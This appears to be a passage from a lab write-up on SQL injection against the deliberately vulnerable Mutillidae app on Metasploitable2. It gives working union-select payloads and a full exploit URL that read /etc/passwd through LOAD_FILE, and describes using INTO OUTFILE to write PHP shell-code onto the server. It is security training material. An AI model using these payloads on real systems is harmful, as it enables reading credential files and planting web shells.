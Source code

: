 
## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.171.133/mutillidae/index.php?page=user-info.php&username=dharsan%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
<img width="865" alt="image" src="https://github.com/user-attachments/assets/6b678260-1f29-40dd-a881-7e3d7b10c518">

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).



## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
